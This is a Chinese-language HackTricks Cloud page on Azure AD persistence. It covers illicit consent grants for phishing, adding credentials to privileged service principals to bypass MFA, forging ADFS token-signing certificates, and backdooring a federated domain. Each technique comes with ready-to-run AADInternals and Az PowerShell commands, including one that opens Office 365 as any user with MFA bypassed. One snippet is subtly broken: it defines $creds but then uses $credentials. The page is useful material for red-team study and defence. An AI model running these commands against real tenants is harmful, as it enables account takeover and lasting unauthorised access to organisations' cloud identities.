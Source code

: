 # Az - 持久性

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

### 非法同意授予

默认情况下，任何用户都可以在Azure AD中注册应用程序。因此，您可以注册一个应用程序（仅适用于目标租户），该应用程序需要管理员同意高影响权限（如果您是管理员，则可以批准）- 如代表用户发送邮件，角色管理等。这将使我们能够在成功的情况下执行**钓鱼攻击**，这将非常**有成效**。

此外，您还可以接受该应用程序，并以您的用户身份作为一种维持访问权限的方式。

### 应用程序和服务主体

具有应用程序管理员、GA或具有microsoft.directory/applications/credentials/update权限的自定义角色的权限，我们可以向现有应用程序添加凭据（密钥或证书）。

可以**针对具有高权限的应用程序**或**添加具有高权限的新应用程序**。

向应用程序添加的一个有趣的角色是**特权身份验证管理员角色**，因为它允许**重置全局管理员的密码**。

此技术还允许**绕过MFA**。

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 用于基于证书的身份验证

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### 联合 - 令牌签名证书

拥有本地 AD 上的 **DA 特权**，可以创建和导入具有非常长有效期的 **新令牌签名** 和 **令牌解密证书**。这将允许我们以任何我们知道其 ImuutableID 的用户身份 **登录**。

作为 **ADFS 服务器上的 DA** 运行以下命令来创建新证书（默认密码为 'AADInternals'），将它们添加到 ADFS，禁用自动轮换并重新启动服务：
```powershell
New-AADIntADFSSelfSignedCertificates
```
然后，使用Azure AD更新证书信息：
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### 联合 - 受信任的域

拥有租户上的 GA 特权后，可以**添加一个新域**（必须经过验证），将其身份验证类型配置为联合，并配置该域**信任特定证书**（在下面的命令中为 any.sts）和发行者：
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 参考资料

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>从零开始学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。 

</details>
